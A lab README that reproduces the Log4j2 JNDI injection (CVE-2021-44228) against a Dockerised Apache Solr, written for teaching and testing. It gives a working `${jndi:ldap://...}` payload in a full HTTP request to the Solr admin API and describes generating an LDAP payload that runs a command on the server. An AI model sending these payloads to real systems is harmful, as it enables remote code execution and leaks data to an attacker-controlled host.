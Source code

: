 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Because the target JDK version is below 8u191, we can use `rmi://` or `ldap://` to run the Java bytecode directly.

For vulnerability exploitation, you can use the [Java Chains](https://github.com/vulhub/java-chains). First, visit the [Quick Start](https://java-chains.vulhub.org/docs/guide) page to set up Java Chains. Then, follow the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload) to configure the command `touch /tmp/success` and generate a JNDI LDAP URL Payload. Finally, replace the payload in the previous HTTP request to successfully exploit the vulnerability.

![](2.png)

As you can see, `touch /tmp/success` is succesful executed:

![](3.png)
